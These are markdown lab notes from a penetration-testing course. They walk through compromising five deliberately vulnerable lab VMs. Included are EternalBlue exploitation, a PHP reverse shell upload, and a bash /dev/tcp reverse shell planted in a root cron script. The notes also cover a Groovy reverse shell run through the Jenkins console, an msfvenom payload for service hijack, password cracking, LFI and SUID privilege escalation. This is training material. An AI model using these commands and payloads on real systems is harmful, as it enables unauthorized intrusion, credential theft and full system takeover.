# Capstone Labs

Import all the [VMs](https://drive.google.com/drive/folders/1xJy4ozXaahXvjbgTeJVWyY-eUGIKgCj1) into [VMWare Workstation Pro (free)](https://support.broadcom.com/group/ecx/productdownloads?subfamily=VMware%20Workstation%20Pro) or Virtualbox and change Network adapter to `NAT`.

## Blue

> O.S. - Windows 7
>
> Credentials:
>
> - `user`:`Password123!`
> - `administrator`:`Password456!`

```bash
mkdir -p ~/tcm/peh/blue/
cd ~/tcm/peh/blue/
```

```bash
sudo nmap -p- -A -T4 192.168.31.132 -oA blue
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 00:0C:29:33:BE:EE (VMware)
Device type: general purpose
Running: Microsoft Windows 7|2008|8.1
OS CPE: cpe:/o:microsoft:windows_7::- cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1

OS details: Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1
Network Distance: 1 hop
Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-07-13T20:57:32
|_  start_date: 2024-07-13T20:49:44
|_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:33:be:ee (VMware)
|_clock-skew: mean: 1h19m51s, deviation: 2h18m33s, median: -8s
| smb-os-discovery: 
|   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: WIN-845Q99OO4PP
|   NetBIOS computer name: WIN-845Q99OO4PP\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-07-13T16:57:32-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

TRACEROUTE
HOP RTT     ADDRESS
1   0.68 ms 192.168.31.132
```

### Exploit MS17-010

> [CVE-2017-0144 - MS17-010](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
>
> [Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010) - Windows remote Exploit](https://www.exploit-db.com/exploits/42031)
>
> [MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)

**Metasploit**

```bash
msfconsole

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 192.168.31.132
run
```

```bash
[+] 192.168.31.132:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
```

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS 192.168.31.132
check
# Same as auxiliary/scanner/smb/smb_ms17_010 module
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.31.131 # Listening HOST/Kali
run
```


**Manual exploit**

```bash
cd ~/tcm/peh/blue/
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd ~/tcm/peh/blue/AutoBlue-MS17-010
pip install -r requirements.txt
cd shellcode

# Checker
python2 eternal_checker.py 192.168.31.132
```


> ❗ The machine can crash with this attack.

```bash
cd ~/tcm/peh/blue/AutoBlue-MS17-010/shellcode
./shell_prep.sh
# kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
# y
# LHOST for reverse connection:
# 192.168.31.131
# LPORT you want x64 to listen on:
# 8888
# LPORT you want x86 to listen on:
# 2222
# Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
# 1
# Type 0 to generate a staged payload or 1 to generate a stageless payload
# 0

cd ..
./listener_prep.sh
# Starts a listener
```

```bash
# Open another Terminal
cd ~/tcm/peh/blue/AutoBlue-MS17-010/
python2 eternalblue_exploit7.py 192.168.31.132 shellcode/sc_all.bin
```



---

## Academy

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
mkdir -p ~/tcm/peh/academy
cd ~/tcm/peh/academy/
```

```bash
sudo nmap -p- -A -T4 192.168.31.128 -oA academy
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.31.131
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:F2:81:D6 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.74 ms 192.168.31.128
```

- Consider first attacks to ports `21`, `80`.
  - Brute-forcing port `22` (SSH) can be used to check if network detection is applied at client side, and for testing some default/weak credentials.

### Port 80

Visit [192.168.31.128](192.168.31.128)

- Debian
- Apache 2.4.38 Server default webpage
  - poor hygiene, etc
- http://192.168.31.128/phpmyadmin


### FTP - Port 21

- First do a version check for vulnerabilities
- Proceed with `ftp` connection

```bash
ftp 192.168.31.128
# use anonymous:anonymous user
# 230 Login successful.
```

```bash
ls -lah
get note.txt
```

- Try [http://192.168.31.128/note.txt](http://192.168.31.128/note.txt) - Not found

```bash
# exit ftp
cat note.txt

    Hello Heath !
    Grimmie has setup the test website for the new academy.
    I told him not to use the same password everywhere, he will change it ASAP. I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:
    
    INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
    ('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

    The StudentRegno number is what you use for login.
    Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
    We can always adapt it to our needs.
    -jdelta
```

> 10201321 - cd73502828457d15655bbd7a63fb0bc8

```bash
hash-identifier
# input cd73502828457d15655bbd7a63fb0bc8

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

- Crash md5 hash online
  - [CrackStation - Online Password Hash Cracking](https://crackstation.net/)

➡️ [hashcat](https://crackstation.net/)

- Inside the Kali VM, `hashcat` will use only the CPU for cracking the hash

```bash
locate rockyou.tx
nano hashes.txt # insert the hash string

# Run hashcat
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```



> `10201321`:`student` 

➡️ [dirb](https://www.kali.org/tools/dirb/)

```bash
dirb http://192.168.31.128
```

➡️ [ffuf](https://github.com/ffuf/ffuf)

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.128/FUZZ
```

```bash
academy [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 0ms]
phpmyadmin [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 0ms
		   [Status: 200, Size: 10701, Words: 3427, Lines: 369, Duration: 0ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 1ms]
```

- Navigate to [http://192.168.31.128/academy](http://192.168.31.128/academy)
  - Use `10201321`:`student` credentials to login

- Check pages source code for CMS versions
- Try to upload a picture - upload successful
  - Check the image URL - e.g. [http://192.168.31.128/academy/studentphoto/peh-course-solo-icon.png](http://192.168.31.128/academy/studentphoto/peh-course-solo-icon.png)
- Try to upload a reverse shell, to abuse the file upload
  - Upload via PHP
  - Use [GitHub - pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) - copy the content of `php-reverse-shell.php` and create a `shell.php` file with that content
  - Set the `$ip` equal to the Kali VM IP

```bash
nc -nvlp 1234
```

- Upload the `shell.php` file using the web image uploader
  - The file is already executed (if not navigate to its webpage)
  - Reverse shell working


```bash
whoami
sudo -l # not working
```

#### Privilege Escalation LinPEAS

➡️ [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

```bash
# Kali VM
mkdir ~/tools
cd ~/tools
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh

python3 -m http.server
```

```bash
# Target reverse shell
cd /tmp
wget http://192.168.31.131:8000/linpeas.sh
# the file will be copied to the target machine

# Run LinPEAS
chmod +x linpeas.sh
./linpeas.sh
```


- Check for interesting data

```bash
* * * * * /home/grimmie/backup.sh

/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
```

```bash
cat /var/www/html/academy/admin/includes/config.php

<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```

```bash
cat /etc/passwd

grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
```

```bash
# Kali
ssh grimmie@192.168.31.128
# Paste My_V3ryS3cur3_P4ss password

grimmie@academy:~$

sudo -l
history
cat /home/grimmie/backup.sh

    #!/bin/bash
    rm /tmp/backup.zip
    zip -r /tmp/backup.zip /var/www/html/academy/includes
    chmod 700 /tmp/backup.zip
    
crontab -l
# no crontab for grimmie
crontab -u root -l
# must be privileged
systemctl list-timers
```

➡️ [pspy](https://github.com/DominicBreuker/pspy) - Monitor linux processes without root permissions

- Download `pspy64` and move it into the `~/tools` dir where Python HTTP server is running

```bash
# Target
cd /tmp
wget http://192.168.31.131:8000/pspy64
chmod +x pspy64
./pspy64

# Wait for the backup.sh to run
```


- Run a bash reverse shell one liner
  - [Reverse Shell Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```bash
# Kali VM
nc -nvlp 8081

# Target
# Insert the one liner reverse shell into the backup.sh script
cd
nano backup.sh

	bash -i >& /dev/tcp/192.168.31.131/8081 0>&1
```

- Since the script will run as `root` user's cronjob, root shell will be executed



---

## Dev

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
sudo arp-scan -l
# Dev IP 192.168.31.130

mkdir -p ~/tcm/peh/dev
cd ~/tcm/peh/dev/
```

```bash
sudo nmap -p- -A -T4 192.168.31.130 -oA dev
```

```bash
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      39417/tcp   mountd
|   100005  1,2,3      48134/udp   mountd
|   100005  1,2,3      48315/tcp6  mountd
|   100005  1,2,3      49884/udp6  mountd
|   100021  1,3,4      32999/tcp6  nlockmgr
|   100021  1,3,4      37761/tcp   nlockmgr
|   100021  1,3,4      49693/udp6  nlockmgr
|   100021  1,3,4      55683/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37761/tcp open  nlockmgr 1-4 (RPC #100021)
39417/tcp open  mountd   1-3 (RPC #100005)
47921/tcp open  mountd   1-3 (RPC #100005)
56093/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 00:0C:29:B6:91:5C (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.70 ms 192.168.31.130
```

### HTTP - Port 80/8080

- [http://192.168.31.130/](http://192.168.31.130/)
  - Bolt
  - `/var/www/html/`



- [http://192.168.31.130:8080/](http://192.168.31.130:8080/)
  - PHP info page - information disclosure
  - `PHP Version 7.3.27-1~deb10u1`



```bash
# Port 80
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.130/FUZZ

public [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 2ms]
src [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 4ms]
app [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 6ms]
vendor [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 1ms]
extensions [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 1ms]
server-status [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 2ms]

# Port 8080
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.130:8080/FUZZ

dev [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 3ms]
server-status [Status: 403, Size: 281, Words: 20, Lines: 10, Duration: 1ms]
```

- Navigate to each found directory
  - [http://192.168.31.130/app/](http://192.168.31.130/app/)
  - [http://192.168.31.130:8080/dev/](http://192.168.31.130:8080/dev/)

### NFS - Port 2049

```bash
showmount -e 192.168.31.130

/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```

```bash
sudo mkdir /mnt/dev
sudo mount -t nfs 192.168.31.130:/srv/nfs /mnt/dev

cd /mnt/dev
ls
sudo unzip save.zip
    Archive:  save.zip
    [save.zip] id_rsa password:

cp /mnt/dev/* ~/tcm/peh/dev
chmod 600 ~/tcm/peh/dev/id_rsa
```

#### Crack ZIP

➡️ [fcrackzip](https://www.kali.org/tools/fcrackzip/)

```bash
sudo apt install fcrackzip
```

```bash
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip

found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)
PASSWORD FOUND!!!!: pw == java101

sudo unzip save.zip
# use java101 for password

cat todo.txt
    - Figure out how to install the main website properly, the config file seems correct...
    - Update development website
    - Keep coding in Java because it's awesome
    jp
```

```bash
ssh -i id_rsa jp@192.168.31.130

# needs password
```

- Download [http://192.168.31.130/app/config/config.yml](http://192.168.31.130/app/config/config.yml)

```bash
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

#### LFI

- Navigate to the BoltWire application [http://192.168.31.130:8080/dev/](http://192.168.31.130:8080/dev/)
  - [BoltWire 6.03 - Local File Inclusion](https://www.exploit-db.com/exploits/48411)

```bash
searchsploit boltwire

BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion | php/webapps/48411.txt
```

- Use the `Local File Inclusion` vulnerability, that allows to expose files running on a server
  - **LFI** - Steps to Reproduce:
    - Using HTTP GET request browse to the following page, whilst being authenticated user.
  - Create and account and login

```bash
/index.php?p=action.search&action=../../../../../../../etc/passwd
```

- [http://192.168.31.130:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd](http://192.168.31.130:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd)



#### SSH

- The user is `jeanpaul`

```bash
cd ~/tcm/peh/dev

ssh -i id_rsa jeanpaul@192.168.31.130
# Enter passphrase for key 'id_rsa':
# Try the Database found password
# I_love_java

jeanpaul@dev:~$

sudo -l
# /usr/bin/zip can be run as elevated privileges
```



- Abuse `sudo /usr/bin/zip` to escalate to `root` user

#### Privesc GTFO Bins

➡️ [GTFO Bins](https://gtfobins.github.io/)

- Check [zip - GTFOBins](https://gtfobins.github.io/gtfobins/zip/)
  - look for `Sudo` - If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'

id
cd /root
cat flag.txt
```


---

## Butler

> O.S. - Windows 10
>
> Credentials:
>
> - Low Privilege User - `butler`:`JeNkIn5@44`
> - Admin - `administrator`:`A%rc!BcA!`

```bash
sudo arp-scan -l
# Butler IP 192.168.31.133

mkdir -p ~/tcm/peh/butler
cd ~/tcm/peh/butler/
```

```bash
sudo nmap -p- -A -T4 192.168.31.133 -oA butler
```

```bash
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
7680/tcp  open  pando-pub?
8080/tcp  open  http          Jetty 9.4.41.v20210516
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.41.v20210516)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 00:0C:29:06:23:B3 (VMware)
Device type: general purpose
Running: Microsoft Windows 10
OS CPE: cpe:/o:microsoft:windows_10
OS details: Microsoft Windows 10 1709 - 1909
Network Distance: 1 hop
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: BUTLER, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:06:23:b3 (VMware)
|_clock-skew: 8h59m49s
| smb2-time: 
|   date: 2024-07-14T19:54:50
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.31.133
```

### HTTP - Port 8080

- Navigate to [http://192.168.31.133:8080](http://192.168.31.133:8080)
  - Jenkins
  - [PWN Jenkins](https://github.com/gquere/pwn_jenkins)
  - [Jenkins-security - HackTricks Cloud](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

- Focus on Login into the Jenkins app
  - try default credentials (`admin`:`password`) - not working
  - brute-force with Metasploit or BurpSuite

Intercept the login request and send it to the Intruder.

- Use `Cluster bomb` attack type
- Set the payloads lists and start the attack

`jenkins`:`jenkins` is a valid login.



- Disable proxy

#### Reverse shell

- Login with `jenkins`:`jenkins`
  - search for code execution attacks: e.g. `jenkins script console exploit`
  - [Abusing Jenkins Groovy Script Console to get Shell | by Nishant Sharma | Pentester Academy Blog](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
- From the Manage Jenkins / Script Console, use [Pure Groovy/Java Reverse Shell](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) to get a reverse shell

```bash
# Kali VM
nc -nvlp 8044
```

```bash
# Script Console - run
String host="192.168.31.131";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



```bash
whoami
systeminfo

OS Version: 10.0.19043 N/A Build 19043
```

#### Privesc WinPEAS

➡️ [WinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

```bash
# Kali VM
cd ~/tools
wget https://github.com/peass-ng/PEASS-ng/releases/download/20240714-cd435bb2/winPEASx64.exe
mv winPEASx64.exe winpeas.exe

python3 -m http.server 80
```

```bash
# Target reverse shell
cd c:\Users\butler
certutil.exe -urlcache -f http://192.168.31.131/winpeas.exe winpeas.exe
# the file will be copied to the target machine

# Run LinPEAS
winpeas.exe
```

- Look for useful (red color) information, quick wins for privilege escalation

**Unquoted service paths**

- [Unquoted Service Paths | Red Team Notes](https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths)
- Abuse misconfigured services, possible when path the the service is not quoted and there are spaces in the path


```bash
WiseBootAssistant(WiseCleaner.com - Wise Boot Assistant)[C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe] - Auto - Running - No quotes and Space detected
    YOU CAN MODIFY THIS SERVICE: AllAccess
    File Permissions: Administrators [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\Wise\Wise Care 365 (Administrators [AllAccess])
```

- Drop an exploit binary into the `C:\Program Files (x86)\Wise\` directory

```bash
# Generate an exploit
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.31.131 LPORT=7777 -f exe > Wise.exe

python3 -m http.server 80

# New terminal
nc -nvlp 7777
```

```bash
# Target reverse shell
cd C:\Program Files (x86)\Wise\
certutil.exe -urlcache -f http://192.168.31.131/Wise.exe Wise.exe

# Stop the running service
sc stop WiseBootAssistant
sc query WiseBootAssistant
sc start WiseBootAssistant
```

- Reverse shell as `system`



---

## Blackpearl

> O.S. - Debian 10
>
> Credentials:
>
> - `root`:`tcm`

```bash
sudo arp-scan -l
# Butler IP 192.168.31.129

mkdir -p ~/tcm/peh/blackpearl
cd ~/tcm/peh/blackpearl/
```

```bash
sudo nmap -p- -A -T4 192.168.31.129 -oA blackpearl
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
MAC Address: 00:0C:29:35:E9:A7 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.93 ms 192.168.31.129
```

### HTTP - Port 80

- Navigate to [http://192.168.31.129](http://192.168.31.129)
  - **nginx** default page
- Proceed with some directory busting

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.31.129/FUZZ

secret [Status: 200, Size: 209, Words: 31, Lines: 9, Duration: 13ms]
```

- Download the [http://192.168.31.129/secret](http://192.168.31.129/secret) file


### DNS - Port 53

➡️ [dnsrecon](https://github.com/darkoperator/dnsrecon)

```bash
dnsrecon -r 127.0.0.0/24 -n 192.168.31.129 -d test

[*] Performing Reverse Lookup from 127.0.0.0 to 127.0.0.255
[+] 	 PTR blackpearl.tcm 127.0.0.1
[+] 1 Records Found
```

- Add `blackpearl.tcm` to Kali `/etc/hosts`

```bash
sudo nano /etc/hosts

# Add
192.168.31.129 blackpearl.tcm
```

- Navigate to [http://blackpearl.tcm](http://blackpearl.tcm)
  - phpinfo webpage


```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://blackpearl.tcm/FUZZ

navigate [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 0ms]
 	[Status: 200, Size: 86790, Words: 4212, Lines: 1040, Duration: 6ms]
```

- Navigate to [http://blackpearl.tcm/navigate](http://blackpearl.tcm/navigate)
  -  Navigate CMS v2.8



- Google for `navigate cms exploit`
  - [Navigate CMS - (Unauthenticated) Remote Code Execution (Metasploit)](https://www.exploit-db.com/exploits/45561)
  - [Navigate CMS Unauthenticated Remote Code Execution](https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/)

> This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication. The module then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations. Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely. This module was tested against Navigate CMS 2.8. 

```bash
msfconsole
search navigate cms

use exploit/multi/http/navigate_cms_rce
set rhosts 192.168.31.129
set vhost blackpearl.tcm
show targets
run
```

```bash
# meterpreter > 
shell

whoami
```

#### TTY Shell

- Generate a TTY Shell
  - [Spawning a TTY Shell | SecWiki](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)

```bash
which python
	/usr/bin/python

python -c 'import pty; pty.spawn("/bin/bash")'
```


#### Privesc LinPEAS

```bash
# Kali
cd ~/tools
python3 -m http.server 80
```

```bash
# Target reverse shell
cd /tmp
wget http://192.168.31.131/linpeas.sh
```

- Look for username and password, bottom up (red, yellow stuff)



- [Linux Privilege Escalation | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

```bash
# List owned files with SUID permissions

find / -type f -perm -4000 2>/dev/null
```

```bash
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

- Go to [GTFOBins](https://gtfobins.github.io/) and check for [php SUID](https://gtfobins.github.io/gtfobins/php/#suid)

> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
>
> This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

# This will run /bin/sh as root user
```

```bash
whoami
id
	uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
	
cd /root
cat flag.txt
cat /etc/shadow
...
```



---

> 🔗 For more in depth Privilege Escalation, check TCM courses here:
>
> - [Linux Privilege Escalation | TCM Security](https://academy.tcm-sec.com/p/linux-privilege-escalation)
> - [Windows Privilege Escalation for Beginners | TCM Security](https://academy.tcm-sec.com/p/windows-privilege-escalation-for-beginners)

---

